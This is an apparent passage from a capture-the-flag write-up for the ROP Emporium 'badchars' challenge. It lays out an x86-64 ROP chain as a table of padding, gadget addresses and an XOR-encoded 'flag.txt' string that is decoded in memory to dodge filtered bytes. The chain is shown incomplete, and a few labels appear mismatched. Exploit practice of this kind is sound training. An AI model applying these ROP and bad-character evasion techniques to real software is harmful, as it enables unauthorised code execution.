 ![badchars3](./assets/badchars3.png)

Let's then put our shits together remembering little endianess:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop r12; pop r13; pop r14; pop r15; ret; `|"\x9c\x06\x40\x00\x00\x00\x00\x00"|
| str1                        | "\x64\x6E\x63\x65\x2C\x76\x7A\x76"|
| `.data`                          | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| str2 | "\x02\x02\x02\x02\x02\x02\x02\x02" |
| `.data`                          |"\x30\x10\x60\x00\x00\x00\x00\x00"|
| `mov qword ptr [r13], r12; ret;` | "\x34\x06\x40\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data`                          | "\x31\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+1`                          | "\x32\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+2`                          | "\x33\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+3`                          | "\x34\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+4`                          | "\x35\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|

[Split]: https://ropemporium.com/challenge/write4.html
